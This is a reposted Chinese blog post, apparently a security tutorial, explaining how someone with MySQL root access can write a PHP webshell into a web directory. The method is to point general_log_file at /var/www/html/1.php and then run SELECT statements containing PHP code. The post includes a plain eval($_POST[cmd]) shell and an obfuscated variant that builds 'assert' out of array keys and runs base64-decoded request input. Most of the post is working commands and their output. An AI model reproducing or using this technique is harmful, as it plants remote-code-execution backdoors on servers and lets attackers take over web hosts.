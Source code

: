 ```yaml
---
title: "mysql的兼职技能"
date: 2017-03-28 22:02:11 +0800

categories: 转载验证
tags: [mysql, shell, 网络安全]
---
```

>必须在mysql 的**root**权限下

查看`general_log`状态

```sql
mysql> show variables like '%general%';
+------------------+----------------------------+
| Variable_name    | Value                      |
+------------------+----------------------------+
| general_log      | OFF                        |
| general_log_file | /var/lib/mysql/itaken.log |
+------------------+----------------------------+
2 rows in set (0.22 sec)

mysql>
```
开启mysql查询日志, 设置日志文件路径
>这里是存储了每一个sql语句执行的日志（包含SQL语句本身）

```sql
mysql> set global general_log = on;
Query OK, 0 rows affected (0.00 sec)

mysql> set global general_log_file = '/var/www/html/1.php';
Query OK, 0 rows affected (0.00 sec)

mysql> show variables like '%general%';
+------------------+---------------------+
| Variable_name    | Value               |
+------------------+---------------------+
| general_log      | ON                  |
| general_log_file | /var/www/html/1.php |
+------------------+---------------------+
2 rows in set (0.00 sec)

mysql>
```
>`1.php`文件如果不存在,则会创建,所以该目录必须有创建文件权限, 否则会报错
```sql
mysql> set global general_log_file = '/var/www/html/1.php';
ERROR 29 (HY000): File '/var/www/html/1.php' not found (Errcode: 13 - Permission denied)
```

执行sql查询, 记录到日志
```sql
mysql> select '<?php eval($_POST[cmd]);?>';
+----------------------------+
| <?php eval($_POST[cmd]);?> |
+----------------------------+
| <?php eval($_POST[cmd]);?> |
+----------------------------+
1 row in set (0.00 sec)

mysql> SELECT "<?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$a = array_keys($p);$_=$p['pffff'].$p['pffff'].$a[2];$_= 'a'.$_.'rt';$_(base64_decode($_REQUEST['username']));?>";
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| <?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$a = array_keys($p);$_=$p['pffff'].$p['pffff'].$a[2];$_= 'a'.$_.'rt';$_(base64_decode($_REQUEST['username']));?> |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| <?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$a = array_keys($p);$_=$p['pffff'].$p['pffff'].$a[2];$_= 'a'.$_.'rt';$_(base64_decode($_REQUEST['username']));?> |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
1 row in set (0.00 sec)

mysql>
```


>原文: [SQL语句利用日志写shell](https://evi1cg.me/archives/test1.html)

---
## 参考文档
- [mysql语句执行记录写一句话](http://www.sakill.com/?p=426)
- [The General Query Log](https://dev.mysql.com/doc/refman/5.7/en/query-log.html)
- [phpmyadmin新姿势getshell](http://blog.cora-lab.org/287.html)
